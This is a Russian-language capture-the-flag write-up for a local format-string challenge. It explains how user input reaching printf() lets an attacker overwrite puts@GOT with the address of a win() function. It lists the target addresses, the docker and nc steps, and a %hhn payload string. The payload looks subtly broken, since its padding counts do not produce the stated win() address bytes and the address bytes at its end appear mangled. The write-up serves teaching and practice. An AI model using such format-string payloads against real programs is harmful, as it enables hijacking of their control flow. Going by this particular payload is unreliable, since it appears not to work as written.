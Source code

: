 
# Football Format String PWN Challenge

## Описание

В этом задании есть уязвимость форматной строки в функции ask().
Вход пользователя передаётся напрямую в printf(), без формата.

После printf вызывается puts("Thanks for voting!").
Мы хотим перезаписать адрес puts@GOT на адрес функции win(),
чтобы при вызове puts выводился флаг из flag.txt.

## Ключевые адреса

- puts@GOT = 0x404018
- win()     = 0x4011b6

## Как решить через nc

1. Запустить докер:
```
docker-compose up --build
```

2. Подключиться к сервису:
```
nc localhost 1338
```

3. Ввести следующий payload (одной строкой, без переносов):
```
%182x%10$hhn%177x%11$hhn%144x%12$hhnAAA@@ @@ @@ 
```

4. Получить флаг.

## Примечания

- payload рассчитан на позицию аргументов в 10, 11 и 12 местах стека.
- Если позиция другая, можно подобрать вручную с помощью `%p` и смотреть вывод.
